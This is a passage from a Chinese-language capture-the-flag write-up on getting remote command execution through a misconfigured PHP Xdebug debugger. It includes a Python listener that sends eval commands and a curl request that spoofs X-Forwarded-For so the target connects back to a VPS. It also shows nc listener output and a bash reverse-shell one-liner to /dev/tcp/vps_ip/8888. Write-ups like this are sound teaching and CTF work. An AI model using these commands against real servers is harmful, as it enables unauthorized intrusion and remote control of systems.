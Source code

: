 ```
    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```
 
将该文件放在vps上，保存为xdebug.py
 
运行
 
```
python xdebug.py
```
 
然后利用curl触发
 
```
curl 'http://题目ip:port/index.php?XDEBUG_SESSION_START=phpstrom' -H "X-Forwarded-For: vps_ip"


```
 
然后即可执行命令
 
```
>>  system("curl vps_ip:8888")
```
 
收到
 
```
root@ubuntu-512mb-sfo2-01:~# nc -l -vv -p 8888
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [题目ip] port 8888 [tcp/*] accepted (family 2, sport 63917)
GET / HTTP/1.1
User-Agent: curl/7.35.0
Host: vps_ip:8888
Accept: */*
```
 
发现可以执行命令，反弹shell即可
 
```
bash -i >& /dev/tcp/vps_ip/8888 0>&1
```
 
这后面就是老生常谈的问题了，就不再细说了
 
### 注意事项 
 
存在蛇皮点，即有的时候看见phpinfo的
 
```
xdebug.remote_connect_back
xdebug.remote_enable
```
 
关闭
 
未必就不能就行xdebug回连
 
比如上次的国际赛2018-N1CTF
 

[0]: https://img2.tuicool.com/nIFNNr6.jpg 
[1]: https://img0.tuicool.com/2iaY7rb.jpg 
[2]: https://img2.tuicool.com/Yfiqqmz.jpg 
[3]: https://img1.tuicool.com/fqee6ji.jpg 